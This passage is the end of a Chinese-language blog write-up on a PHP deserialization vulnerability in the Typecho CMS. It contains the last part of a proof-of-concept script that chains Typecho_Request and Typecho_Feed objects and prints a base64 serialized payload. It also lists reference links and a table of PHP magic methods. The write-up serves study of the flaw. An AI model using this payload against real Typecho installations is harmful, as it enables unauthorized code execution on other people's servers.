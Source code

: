```
		
		
		public function addItem(array $item)
			{
				$this->_items[] = $item;
			}
	}
	
	$payload1 = new Typecho_Request(); 
	$payload2 = new Typecho_Feed();
	$payload2->addItem(array('author' => $payload1)); // key-value
	
	$exp = array('adapter' => $payload2, 'prefix' => 'typecho');
	echo base64_encode(serialize($exp));
?>
```

可能这样更好理解吧；

## 参考博文

[http://www.th1s.cn/index.php/2017/10/25/138.html](http://www.th1s.cn/index.php/2017/10/25/138.html)
[https://xianzhi.aliyun.com/forum/topic/12/](https://xianzhi.aliyun.com/forum/topic/12/)
[http://p0sec.net/index.php/archives/114/](http://p0sec.net/index.php/archives/114/)
[http://www.blogsir.com.cn/safe/454.html](http://www.blogsir.com.cn/safe/454.html)

## 备忘

魔术方法:

```
__destruct()    对象被销毁时触发
__toString()    把类当作字符串使用时触发
__wakeup()      使用unserialize时触发
__sleep()       使用serialize时触发
__get()         用于从不可访问的属性读取数据
__set()         用于将数据写入不可访问的属性
__isset()       在不可访问的属性上调用isset()或empty()触发
__unset()       在不可访问的属性上使用unset()时触发
__invoke()      当脚本尝试将对象调用为函数时触发
__call()        在对象上下文中调用不可访问的方法时触发
__callStatic()  在静态上下文中调用不可访问的方法时触发
```